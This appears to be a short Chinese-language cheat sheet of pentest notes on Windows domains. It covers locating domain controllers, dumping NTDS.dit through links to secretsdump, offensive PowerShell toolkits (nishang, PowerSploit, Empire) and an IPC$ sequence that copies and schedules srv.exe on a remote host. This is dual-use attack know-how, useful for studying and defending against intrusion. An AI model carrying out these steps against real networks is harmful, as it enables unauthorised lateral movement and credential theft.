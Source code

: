 >   https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py

域渗透——获得域控服务器的 NTDS.dit 文件

>   http://www.4hou.com/technology/10573.html

### dc 定位

>   nltest dclist:xx.xx
>
>   net time /domain
>
>   systeminfo 中的 domain
>
>   ipconfig /all 中的 DNS Suffix Search List
>
>   扫描53端口，找 dns 位置
>
>   set log
>
>   net group "domain controllers" /domain
>
>   PowerView Get-NetDomainController

PowerView 地址:

>   https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

### windows log

微软第三方信息收集工具 LogParser.exe psloglist.exe 等

### powerhsell 神器

nishang

>   https://github.com/samratashok/nishang

spn扫描

>   https://github.com/nullbind/Powershellery/tree/master/Stable-ish

PowerSploit

>   https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon

针对ps的Empire

>   https://github.com/EmpireProject/Empire

### ipc$

>   D:>net use \\\192.168.1.254\c$ "pwd" /user:user   //连接192.168.1.254的IPC$共享，用unc路径
>
>   D:>copy srv.exe \\\192.168.1.254\c$ //复制本地 srv.exe 到C根目录
>
>   D:>net time \\\192.168.1.254     //查时间
>
>   D:>at　\\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动 srv.exe (这里360会拦截)
>
>   D:>net use \\\192.168.1.254\c$ /del

